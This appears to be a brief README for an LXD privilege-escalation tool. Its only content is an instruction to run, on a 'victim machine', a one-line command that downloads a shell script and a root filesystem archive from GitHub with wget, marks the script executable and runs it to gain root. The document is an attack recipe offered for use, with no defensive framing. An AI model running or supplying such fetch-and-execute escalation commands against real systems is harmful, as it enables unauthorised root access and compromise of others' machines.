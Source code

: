 #  Instructions

### copy the following command in victim machine

1. wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/lxd.sh" && wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/root.tar.gz" && chmod +x lxd.sh && ./lxd.sh

